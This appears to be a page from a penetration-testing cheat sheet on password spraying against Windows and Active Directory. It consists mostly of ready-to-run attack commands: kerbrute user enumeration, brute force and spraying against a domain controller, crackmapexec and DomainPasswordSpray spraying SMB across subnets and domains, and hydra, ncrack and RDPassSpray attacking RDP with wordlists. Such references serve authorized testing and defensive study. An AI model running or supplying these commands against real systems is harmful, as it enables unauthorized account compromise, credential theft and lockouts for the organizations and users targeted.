 ```yaml
---
title: Password Spraying
description: Windows
---
```


<Callout>Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password</Callout>

## Kerberos pre-auth bruteforcing

Using `kerbrute`, a tool to perform Kerberos pre-auth bruteforcing.

> Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.

* Username bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
  ```
* Password bruteforce
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
  ```
* Password spray
  ```powershell
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
  root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
  ```


## Spray a pre-generated passwords list

* Using `crackmapexec` and `mp64` to generate passwords and spray them against SMB services on the network.
  ```powershell
  crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
  ```
* Using `DomainPasswordSpray` to spray a password against all users of a domain.
  ```powershell
  # https://github.com/dafthack/DomainPasswordSpray
  Invoke-DomainPasswordSpray -Password Summer2021!
  # /!\ be careful with the account lockout !
  Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
  ```
* Using `SMBAutoBrute`.
  ```powershell
  Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
  ```


## Spray passwords against the RDP service

* Using [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) to target RDP services.
  ```powershell
  git clone https://github.com/xFreed0m/RDPassSpray
  python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
  ```
* Using [hydra](https://github.com/vanhauser-thc/thc-hydra) and [ncrack](https://github.com/nmap/ncrack) to target RDP services.
  ```powershell
  hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
  ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
  ```
